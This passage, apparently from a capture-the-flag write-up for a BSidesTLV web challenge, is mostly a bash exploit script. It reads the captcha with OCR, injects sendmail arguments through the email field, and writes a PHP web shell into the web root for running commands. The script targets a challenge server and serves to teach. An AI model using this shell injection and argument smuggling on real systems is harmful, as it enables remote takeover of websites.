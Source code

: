 <div class="filename"><span>contactme.sh</span></div>

```bash
#!/bin/bash

CHALLENGE=http://challenges.bsidestlv.com:8080
TARGETURL="$CHALLENGE/index.php"
CAPTCHAURL="$CHALLENGE/captcha.php"

# Session
curl -s \
     -c cookie \
     -o /dev/null \
     $TARGETURL

# Captcha
CAPTCHA=$(curl -s -b cookie $CAPTCHAURL \
          | pngtopnm \
          | gocr -i -)

DOCROOT=/var/www/html
FILENAME=$(sed '$!d' cookie | awk '{ print $NF }' | cut -c3-14).php
LOCATION=$DOCROOT/cache/$FILENAME

# Exploit
STATUS=$(curl -s \
              -b cookie \
              -o /dev/null \
              -w %{http_code} \
              --data-urlencode 'fullname=<?php echo shell_exec($_GET["cmd"]); ?>' \
              --data-urlencode "email_address=\"badguy\\\" -oQ/tmp/ -X$LOCATION blah\"@badguy.com" \
              --data-urlencode "yourmessage=blah blah blah" \
              --data-urlencode "captcha=$CAPTCHA" \
              --data-urlencode "actions=SUBMIT" \
              $TARGETURL)

if [ $STATUS -eq 200 ]; then
  echo "[+] Check $CHALLENGE/cache/$FILENAME?cmd=[shell command, e.g. id]"
else
  echo "[!] Exploit failed"
fi

# Clean up
rm -f cookie
```

The first version of the exploit didn't work. But, the creators of this challenge were kind enough to leave a hint on how to proceed.

![5f9bc59b.png](/assets/images/posts/bsidestlv-web/5f9bc59b.png)

The challenge now becomes an exercise in determining the file name. :triumph:
